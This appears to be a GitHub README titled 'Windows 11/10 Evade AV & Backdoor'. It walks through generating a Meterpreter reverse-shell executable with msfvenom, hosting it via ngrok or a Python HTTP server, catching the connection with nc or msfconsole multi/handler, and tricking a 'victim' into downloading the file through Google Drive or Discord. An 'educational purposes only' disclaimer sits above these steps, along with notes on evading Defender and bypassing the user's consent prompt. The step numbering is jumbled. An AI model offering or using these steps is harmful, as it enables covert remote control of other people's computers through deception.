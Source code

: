 # Windows 11/10 Evade AV & Backdoor

#### **NOTE: For educational purposes only!**
#### **NOTE: Some Meterpreter commands may upset Defender.**
#### **NOTE: User must accept CMD prompt to run file. Working on a way to bypass this with send.keys() or another method.**

## Steps to Compromise:

1. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP_ADDRESS] LPORT=53 -a x86 -f exe -o (File_Name).exe
4. **Setup server in files directory:** <br>
**Using ngrok for remote, or python http server for local testing** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok for remote, or python http server for local testing
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 53 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 53) <br>
msf exploit(handler) > exploit <br>
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
  
# Demonstration Video
[![Click Me](https://img.youtube.com/vi/hwz77o8YMUA/0.jpg)](https://www.youtube.com/watch?v=hwz77o8YMUA)

